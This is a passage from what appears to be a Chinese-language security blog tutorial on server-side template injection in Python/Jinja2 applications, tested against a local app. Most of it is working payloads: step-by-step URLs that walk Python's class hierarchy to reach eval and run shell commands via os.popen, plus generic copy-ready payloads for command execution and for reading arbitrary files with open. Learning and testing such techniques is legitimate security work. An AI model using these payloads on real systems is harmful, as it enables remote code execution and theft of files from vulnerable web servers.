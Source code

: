 我这儿的`cat_warnings`是第147个类，于是

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__[1].__subclasses__()[146]}}`

就选择了`cat_Warnings`，然后将他初始化

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__[1].__subclasses__()[146].__init__}}`

<img src='https://0xfay.github.io/public/image/103823.png'>

可以看到，初始化后它就变成了一个函数，再查看包含该函数的文件的全局变量：

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__[1].__subclasses__()[146].__init__.__globals__}}`

<img src='https://0xfay.github.io/public/image/115446.png'>

可以看到全局变量下的字典中的字典`'__builtins__'`中含有eval函数，调用该eval函数去执行我们想要执行的命令就行了

`http://127.0.0.1:8848/login?name={{''.__class__.__mro__[1].__subclasses__()[146].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}`

<img src='https://0xfay.github.io/public/image/120059.png'>


下面是通用payload:(记得删掉`|`食用，博客报错我也没办法)

`{|%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%|}{|%%20if%20c.__name__%20==%20%27catch_warnings%27%20%|}{|%%20for%20b%20in%20c.__init__.__globals__.values()%20%|}{|%%20if%20b.__class__%20==%20{}.__class__%20%|}{|%%20if%20%27eval%27%20in%20b.keys()%20%|}{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22这里输入需要执行的命令%22).read()%27)%20}}{|%%20endif%20%|}{|%%20endif%20%|}{|%%20endfor%20%|}{|%%20endif%20%|}{|%%20endfor%20%|}`

另外，python2中还有commands库可以执行命令,具体如下:

`result = commands.getoutput('cmd')`　　　＃只返回执行的结果, 忽略返回值.
`result = commands.getstatus('cmd')`　　　＃返回ls -ld file执行的结果.
`result = commands.getstatusoutput('cmd')`  　＃用os.popen()执行命令cmd, 然后返回两个元素的元组(status, result). cmd执行的方式是{ cmd ; }2>&1, 这样返回结果里面就会包含标准输出和标准错误.



#### lfi

另外，需要读取文件的话就调用`'__builtins__'`里的open函数就行了，payload如下

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__[1].__subclasses__()[145].__init__.__globals__[%27__builtins__%27][%27open%27](%27d:/1.txt%27).read()}}`

另附通用payload：(删掉`|`哦)

`{|%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%|}{|%%20if%20c.__name__%20==%20%27catch_warnings%27%20%|}{|%%20for%20b%20in%20c.__init__.__globals__.values()%20%|}{|%%20if%20b.__class__%20==%20{}.__class__%20%|}{|%%20if%20%27eval%27%20in%20b.keys()%20%|}{{%20b[%27open%27](%27修改为欲读取文件地址%27).read()%20}}{|%%20endif%20%|}{|%%20endif%20%|}{|%%20endfor%20%|}{|%%20endif%20%|}{|%%20endfor%20%|}`

明白原理后自行修改也非常方便，这样去调用应该和python的类的继承有关系

<img src='https://0xfay.github.io/public/image/160706.png'>

